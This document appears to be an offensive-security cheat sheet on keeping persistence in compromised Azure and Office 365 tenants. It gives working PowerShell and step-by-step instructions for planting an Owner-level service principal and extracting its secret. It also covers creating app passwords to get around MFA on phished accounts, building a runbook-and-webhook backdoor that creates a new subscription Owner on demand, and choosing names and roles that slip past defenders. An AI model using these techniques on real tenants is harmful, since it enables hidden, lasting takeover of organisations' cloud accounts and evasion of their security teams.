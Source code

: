 # Persistence
## Service principal backdoor
```
$spn = New-AzAdServicePrincipal -DisplayName "WebService" -Role Owner
$spn
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($spn.Secret)
$UnsecureSecret = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)
$UnsecureSecret
$sp = Get-MsolServicePrincipal -AppPrincipalId <AppID>
$role = Get-MsolRole -RoleName "Company Administrator"
Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -RoleMemberObjectId $sp.ObjectId
#Enter the AppID as username and what was returned for $UnsecureSecret as the password in the Get-Credential prompt
$cred = Get-Credential
Connect-AzAccount -Credential $cred -Tenant “tenant ID" -ServicePrincipal
```

## 0365 App passwords
- Use case is for apps that can't use MFA
- Perfect scenario if you phish an account with MFA
- Click "Security & Privacy", Then " Additional security verification", then "Create and manage app passwords"
- Click “Create”, give the app password a name, then copy the value.
- This can now be used to access the account using legacy protocols without the MFA requirement

## Guest user accounts
- By default users can add “guest users” from outside the directory
- This provides (at minimum) read access to the directory
- Hybrid deployments may sync from Azure > On-Prem

## Runbook backdoor with webhook
- Create a new Automation account with “Create Azure Run As Account” enabled
- Navigate to Azure Active Directory > Roles and Administrators> User administrator
- Click Add Assignments • Search for your new automation account and add it
- Navigate to Subscriptions > subscription name > Access control (IAM)
- Click Add Role Assignment and add the automation account as an “Owner”
- Navigate back to Automation Accounts and select your new account
- Click “Modules Gallery”
- Search for “Az.”
- Import the Az.Accounts module
- Import the Az.Resources module
- Now we need to import the actual runbook
- In the Automation Accounts menu click “Runbooks”
- Click “Import a runbook”
- Save the script below as a ps1 file and modify the “user”, “password”, “Nickname”, and “DisplayName” to whatever you want it to be.
```
Import-Module Az.Accounts
Import-Module Az.Resources
$user = “username@targetdomain.com"
$pass = "BackdoorFTW!!"
$Nickname = "BackupSVC"
$DisplayName = "backup_service"
$connectionName = "AzureRunAsConnection"
$servicePrincipalConnection = Get-AutomationConnection -Name $connectionName
Connect-AzAccount -ServicePrincipal -TenantId $servicePrincipalConnection.TenantId -
ApplicationId $servicePrincipalConnection.ApplicationId -
CertificateThumbprint $servicePrincipalConnection.CertificateThumbprint
$SecureStringPassword = ConvertTo-SecureString -String $pass -AsPlainText -Force
New-AzADUser -DisplayName $DisplayName -UserPrincipalName $user -Password $SecureStringPassword -
MailNickname $Nickname
New-AzRoleAssignment -SignInName $user -RoleDefinitionName Owner
```
- When importing the script set a name to something similar to the standard Automation scripts “AzureAutomationTutorial”
- Set “Runbook Type” to PowerShell and click Create
- After the script is imported navigate to the runbook you just created and click “Webhooks” on the left, then Add Webhook
- Now give the webhook a name that will blend in like “backup”
- Make sure you copy the URL!!! This is the most important step.
- Now if the blue team catches you and cuts off your access you have a backdoor.
- All you have to do now is open a PowerShell terminal and run this to create a brand new Azure account that is owner of the subscription
- ```Invoke-WebRequest -Method Post -Uri <Webhook URL>```

## Service principal global admin
- This can be a bit less noticeable as service principal accounts do not show up in the Azure Active Directory “Users” list
-  Blue team should be alerting on new additions to global admins
- Instead of adding to “Company Administrator” just add it to “User Account Administrator” group.

#### Create a new service principal
- Note the “ApplicationId”. This is the service principal’s “username” for auth
```
$spn = New-AzAdServicePrincipal -DisplayName "WebService" -Role Owner
$spn
```

#### Get service principal's secret
- this is the password
```
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($spn.Secret)
$UnsecureSecret = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)
$UnsecureSecret
```

#### Get the service principal using the application id
```
sp = Get-MsolServicePrincipal -AppPrincipalId <AppID>
```

#### Set the role
```
$role = Get-MsolRole -RoleName "Company Administrator"
```

#### Add the service principal as a role member
```
Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -RoleMemberObjectId $sp.ObjectId
```

#### Check the role members
```
Get-MsolRoleMember -RoleObjectId $role.ObjectId
```

#### Authenticate as service principal
```
$cred = Get-Credential
Connect-AzAccount -Credential $cred -Tenant <Tenant ID> -ServicePrincipal
```
